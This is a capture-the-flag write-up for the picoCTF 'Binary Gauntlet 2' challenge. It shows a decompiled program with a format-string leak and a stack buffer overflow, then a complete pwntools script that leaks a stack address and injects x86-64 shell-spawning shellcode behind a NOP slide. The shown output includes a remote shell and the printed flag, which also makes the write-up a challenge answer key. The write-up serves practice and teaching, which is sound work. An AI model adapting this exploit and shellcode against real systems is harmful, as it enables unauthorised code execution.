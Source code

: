 # picoCTF Binary Gauntlet 2 Write Up

## Details:
Points: 50

Jeopardy style CTF

Category: Binary Exploitation

Comments: How does ASLR affect your exploit? gauntlet nc mercury.picoctf.net 49704

## Write up:

Reversing the program we see the following:

```c
int __cdecl main(int argc, const char **argv, const char **envp)
{
  char dest[104]; 
  char *s;

  s = (char *)malloc(1000uLL);
  fgets(s, 1000, stdin);
  s[999] = 0;
  printf(s);
  fflush(_bss_start);
  fgets(s, 1000, stdin);
  s[999] = 0;
  strcpy(dest, s);
  return 0;
}
```

As you can see its basically the same as gauntlet 1. I was able to check the overflow and saw that the 120 overflow worked just like last time. The only issue is that for this one we do not have the address to return to. So I started doing some dynamic analysis.

My first idea was to try to find a relative offset to the address of dest from an address we can get off of the stack. Doing some dynamic analysis I found that an address from the stack was 0x168 away from dest.

I then built an exploit which worked on my local system, this exploit however did not work on their side, so I added NOPs before the shellcode for a NOP slide and shortened the jump:

```python
# import pwn tools
from pwn import *

# open remote connection
r = remote('mercury.picoctf.net', 49704)

# send string to get some stack values
r.send('%llx-%llx-%llx-%llx-%llx-%llx\n')

# get stack values
address = r.recvline() 

# split the results and get the 6th value (value we want)
address = address.split(b'-')[5]

# convert to int and subtract the relative offset
address = int(address[:-1], 16) - 0x158

# 64 bit shellcode
shellcode = b'\x50\x48\x31\xd2\x48\x31\xf6\x48\xbb\x2f\x62\x69\x6e\x2f\x2f\x73\x68\x53\x54\x5f\xb0\x3b\x0f\x05'

# NOP slide
NOPSLIDE = b'\x90'*20

# NOPs for after
NOPS = b'\x90'*76

# craft payload
payload = NOPSLIDE + shellcode + NOPS + p64(address)

# send payload
r.send(payload + b'\n')

# get interactive mode
r.interactive()
```

When run this gets us:

```
[+] Opening connection to mercury.picoctf.net on port 49704: Done
[*] Switching to interactive mode

$ ls
flag.txt
gauntlet
xinet_startup.sh

$ cat flag.txt
230fc5c335f1fe302abdc387d498fe40
```

With the flag being:

```
230fc5c335f1fe302abdc387d498fe40
```